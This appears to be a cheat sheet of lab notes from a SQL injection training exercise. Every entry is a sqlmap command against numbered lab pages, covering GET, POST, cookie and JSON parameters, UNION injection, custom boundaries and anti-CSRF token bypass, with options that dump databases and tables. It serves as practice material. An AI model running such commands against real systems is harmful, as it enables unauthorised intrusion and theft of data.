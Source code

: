 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="cookie=XSSisFun; id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --cookie="cookie=XSSisFun" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://94.237.52.98:38740/case7.php?id=1 --union-cols=5 --level 5 --risk 3 -p id --batch --dbs
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:46258/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```

